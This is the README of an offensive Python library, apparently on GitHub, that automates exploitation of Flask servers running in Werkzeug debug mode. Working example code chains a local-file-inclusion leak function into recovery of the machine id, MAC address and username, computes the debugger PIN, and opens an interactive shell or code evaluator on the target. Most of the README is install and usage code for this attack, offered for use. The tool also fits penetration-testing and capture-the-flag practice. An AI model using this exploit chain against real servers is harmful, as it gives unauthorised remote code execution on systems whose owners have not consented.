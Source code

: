 <h1 align="center">Welcome to WConsole Extractor 👋</h1>
<p align="center">
  <img alt="Version" src="https://img.shields.io/badge/version-1.0.1-blue.svg?cacheSeconds=2592000" />
  <a href="https://github.com/Ruulian/wconsole_extractor/blob/main/LICENSE" target="_blank">
    <img alt="License: MIT" src="https://img.shields.io/badge/License-MIT-yellow.svg" />
  </a>
  <a href="https://twitter.com/Ruulian_" target="_blank">
    <img alt="Twitter: Ruulian_" src="https://img.shields.io/twitter/follow/Ruulian_.svg?style=social" />
  </a>
</p>

> Wconsole Extractor is a library which allows to automatically exploit a flask debug mode server. You just need to write a file leak function, pass it to the class ``WConsoleExtractor`` constructor and you can access to all the elements related to the debug mode. Moreover, you can call the `shell` function to obtain an interactive shell.

## ✨ Demo

![example_gif](.github/example.gif)

## 🔨 Install

### From PyPi

**Global installation**:

```sh
pip3 install wconsole-extractor
```

**Python virtual environment**:

```sh
python3 -m venv env
source env/bin/activate
pip3 install wconsole-extractor

# Deactivate environment
deactivate
```

### Installation from repository

**Global installation**:

```sh
git clone https://github.com/Ruulian/wconsole_extractor.git
cd wconsole_extractor
pip3 install .
```

**Python virtual environment**:

```sh
git clone https://github.com/Ruulian/wconsole_extractor.git
cd wconsole_extractor
python3 -m venv env
source env/bin/activate
pip3 install .

# Deactivate environment
deactivate
```

## 📚 Documentation

**Note**: The target operating system must be a Linux distribution.

### Prerequisites

In order to use correctly the library, you need to have an arbitrary file read on the target and implement it in python.

You must write a function that takes a filename as parameter and returns the content of the file on the target. If the file is not found, the function should return an **empty string**.

### Available attributes

From `WconsoleExtractor` instance, you can access mutiple attributes:

```py
# Target information
extractor.target               # Specified target
extractor.base_url             # Target base url
extractor.hostname             # hostname

# Versions
extractor.python_version       # Python version
extractor.werkzeug_version     # Werkzeug version

# Probably public bits
extractor.username             # User who launched the application
extractor.flask_path           # Flask installation path
extractor.modname              # Constant "flask.app"
extractor.class_name           # Constant "Flask"
extractor.probably_public_bits # Probably public bits [username, modname, class_name, flask_path]

# Private bits
extractor.machine_id           # Machine id
extractor.uuidnode             # MAC address in decimal
extractor.private_bits         # private bits

# Post process information
extractor.pin_code             # Werkzeug PIN CODE
extractor.token                # Werkzeug console token (available in HTML source code)

# Functions
extractor.shell()              # Get interactive shell
extractor.debugger()           # Get interactive code evaluator
```

### Examples

#### Spawn a Shell

```py
from wconsole_extractor import WConsoleExtractor, info
import requests

def leak_function(filename) -> str:
    r = requests.get(f"http://localhost:5000/lfi?path={filename}")
    if r.status_code == 200:
        return r.text
    else:
        return ""

extractor = WConsoleExtractor(
    target="http://localhost:5000",
    leak_function=leak_function,
    debugger_path="/custom_path", # Custom debugger path (default: /console)
)


info(f"PIN CODE: {extractor.pin_code}")
extractor.shell()
```
#### Spawn a Code Debugger
```py
from wconsole_extractor import WConsoleExtractor, info
import requests

def leak_function(filename) -> str:
    r = requests.get(f"http://localhost:5000/lfi?path={filename}")
    if r.status_code == 200:
        return r.text
    else:
        return ""

extractor = WConsoleExtractor(
    target="http://localhost:5000",
    leak_function=leak_function,
    debugger_path="/custom_path", # Custom debugger path (default: /console)
)

info(f"PIN CODE: {extractor.pin_code}")
extractor.debugger()
```

## Author

👤 **Ruulian**

* Website: https://ruulian.me
* Twitter: [@Ruulian_](https://twitter.com/Ruulian_)

## 🤝 Contributing

Contributions, issues and feature requests are welcome!<br />Feel free to check [issues page](https://github.com/Ruulian/wconsole_extractor/issues). 

## Show your support

Give a ⭐️ if this project helped you!

## 📝 License

This project is [MIT](https://github.com/Ruulian/wconsole_extractor/blob/main/LICENSE) licensed.

***
_This README was generated with ❤️ by [readme-md-generator](https://github.com/kefranabg/readme-md-generator)_
